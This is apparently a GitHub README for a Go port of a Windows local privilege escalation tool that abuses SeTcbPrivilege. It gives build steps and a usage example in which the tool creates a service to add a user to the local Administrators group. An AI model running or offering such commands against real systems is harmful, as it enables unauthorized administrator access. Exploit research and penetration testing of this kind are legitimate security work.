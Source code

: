 # SeTcbPrivilege Local Privilege Escalation

This repository contains a **Go** translation of a local privilege escalation (**LPE**) technique involving the **SeTcbPrivilege**. The original proof-of-concept is available at https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178.

## Usage

The following will create and start a service called "AAATcb" that will execute the provided command.
```batch
.\tcb.exe "C:\Windows\system32\cmd.exe /c net localgroup administrators tcb_user /add"
```

The service is deleted automatically after program execution. To delete it manually, you can use the "clean" command:
```batch
.\tcb.exe clean
```

## Build

```bash
git clone https://github.com/CharminDoge/tcb-lpe
cd tcb-lpe
make
```
